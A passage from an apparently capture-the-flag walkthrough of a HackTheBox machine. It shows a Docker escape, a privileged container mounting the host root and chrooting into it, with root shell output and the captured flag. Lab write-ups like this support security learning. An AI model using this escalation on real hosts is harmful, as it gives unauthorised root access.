 ### Root.txt

```text
luffy@cache:~$ docker run -v /:/mnt --rm -it --privileged 2ca708c1c9cc chroot /mnt sh

# id &&hostname
uid=0(root) gid=0(root) groups=0(root)
5cbf7e7969b8
# cat /root/root.txt
90c1e62acc4d72f51790c2b63cc5c458
```

Thanks to [`<box_creator>`](https://www.hackthebox.eu/home/users/profile/<profile_num>) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

